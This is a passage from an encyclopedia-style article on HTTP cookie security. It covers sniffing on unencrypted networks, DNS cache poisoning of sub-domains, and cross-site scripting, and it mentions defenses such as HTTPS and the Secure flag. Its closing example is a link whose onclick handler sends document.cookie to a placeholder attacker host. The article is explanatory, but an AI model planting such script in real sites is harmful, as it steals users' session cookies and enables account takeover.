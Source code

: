 Traffic on a network can be intercepted and read by computers on the network other than the sender and receiver (particularly over [unencrypted](https://en.wikipedia.org/wiki/Plaintext) open [Wi-Fi](https://en.wikipedia.org/wiki/Wi-Fi)). This traffic includes cookies sent on ordinary unencrypted [HTTP sessions](https://en.wikipedia.org/wiki/HTTP_sessions). Where network traffic is not encrypted, attackers can therefore read the communications of other users on the network, including HTTP cookies as well as the entire contents of the conversations, for the purpose of a [man-in-the-middle attack](https://en.wikipedia.org/wiki/Man-in-the-middle_attack).

An attacker could use intercepted cookies to impersonate a user and perform a malicious task, such as transferring money out of the victim's bank account.

This issue can be resolved by securing the communication between the user's computer and the server by employing [Transport Layer Security](https://en.wikipedia.org/wiki/Transport_Layer_Security) ([HTTPS](https://en.wikipedia.org/wiki/HTTPS) protocol) to encrypt the connection. A server can specify the `Secure` flag while setting a cookie, which will cause the browser to send the cookie only over an encrypted channel, such as an SSL connection.[[31]](https://en.wikipedia.org/wiki/HTTP_cookie#cite_note-httponlyrfc-31)

### Publishing false sub-domain: DNS cache poisoning

If an attacker is able to cause a [DNS server](https://en.wikipedia.org/wiki/DNS_server) to cache a fabricated DNS entry (called [DNS cache poisoning](https://en.wikipedia.org/wiki/DNS_cache_poisoning)), then this could allow the attacker to gain access to a user's cookies. For example, an attacker could use DNS cache poisoning to create a fabricated DNS entry of `f12345.www.example.com` that points to the [IP address](https://en.wikipedia.org/wiki/IP_address) of the attacker's server. The attacker can then post an image URL from his own server (for example, `http://f12345.www.example.com/img_4_cookie.jpg`). Victims reading the attacker's message would download this image from `f12345.www.example.com`. Since `f12345.www.example.com` is a sub-domain of `www.example.com`, victims' browsers would submit all `example.com`-related cookies to the attacker's server.

If an attacker is able to accomplish this, it is usually the fault of the [Internet Service Providers](https://en.wikipedia.org/wiki/Internet_Service_Provider) for not properly securing their DNS servers. However, the severity of this attack can be lessened if the target website uses secure cookies. In this case, the attacker would have the extra challenge[[62]](https://en.wikipedia.org/wiki/HTTP_cookie#cite_note-certificatehack-62) of obtaining the target website's SSL certificate from a [certificate authority](https://en.wikipedia.org/wiki/Certificate_authority), since secure cookies can only be transmitted over an encrypted connection. Without a matching SSL certificate, victims' browsers would display a warning message about the attacker's invalid certificate, which would help deter users from visiting the attacker's fraudulent website and sending the attacker their cookies.

### Cross-site scripting: cookie theft

Main article: [Cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)

Cookies can also be stolen using a technique called cross-site scripting. This occurs when an attacker takes advantage of a website that allows its users to post unfiltered [HTML](https://en.wikipedia.org/wiki/HTML) and [JavaScript](https://en.wikipedia.org/wiki/JavaScript) content. By posting malicious HTML and JavaScript code, the attacker can cause the victim's web browser to send the victim's cookies to a website the attacker controls.

As an example, an attacker may post a message on `www.example.com` with the following link:

<a href="#" onclick="window.location = 'http://attacker.com/stole.cgi?text=' + escape(document.cookie); return false;">Click here!</a>
